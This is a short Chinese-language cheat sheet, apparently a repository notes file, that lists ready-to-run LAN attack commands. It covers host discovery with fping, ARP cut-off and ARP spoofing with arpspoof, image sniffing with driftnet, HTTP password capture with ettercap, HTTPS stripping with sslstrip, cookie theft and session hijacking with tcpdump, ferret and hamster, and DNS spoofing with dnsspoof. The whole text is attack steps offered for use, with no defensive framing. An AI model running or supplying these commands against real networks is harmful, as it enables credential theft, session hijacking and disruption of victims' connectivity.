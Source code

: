 * 1. 侦查内网活动主机
** fping -asg 192.168.2.0/24

* 2. arp断网攻击
** arpspoof -i 网卡 -t 目标IP 网关

* 3. arp欺骗
** echo 1 > /proc/sys/net/ipv4/ip_forward ;;打开路由转发功能
** arpspoof -i 网卡 -t 目标IP 网关
** arpspoof -i 网卡 -t 网关 目标IP

* 4. 过滤图片流量
** driftnet -i wlan0 -a -d 保存目录

* 5. HTTP帐号密码获取
** ettercap -Tq -i wlan0

* 6. HTTPS帐号密码获取
** /etc/ettercap/etter.conf 中的iptables下面两行去掉注释
** sslstrip -a -f -k转换HTTPS为HTTP
** ettercap -Tq -i wlan0进行抓包

* 7. 会话劫持
** tcpdump -i wlan0 -w cookie.cap ;;或者wireshark抓包保存为.pcap格式
** ferret -r cookie.cap ;; 或者cookie.pcap --分析抓取的数据包
** hamster ;;架设代理,登录会话
** firefox 设置代理为127.0.0.1:1234 并浏览器打开
** 选中目标IP，筛选合适的cookie并打开

* 8. DNS欺骗
** 修改/etc/ettercap/etter.dns 文件,添加域名重定向到本机IP
** dnsspoof -i wlan0 实行DNS欺骗
** 受害机ping 域名可以看出是攻击者的IP

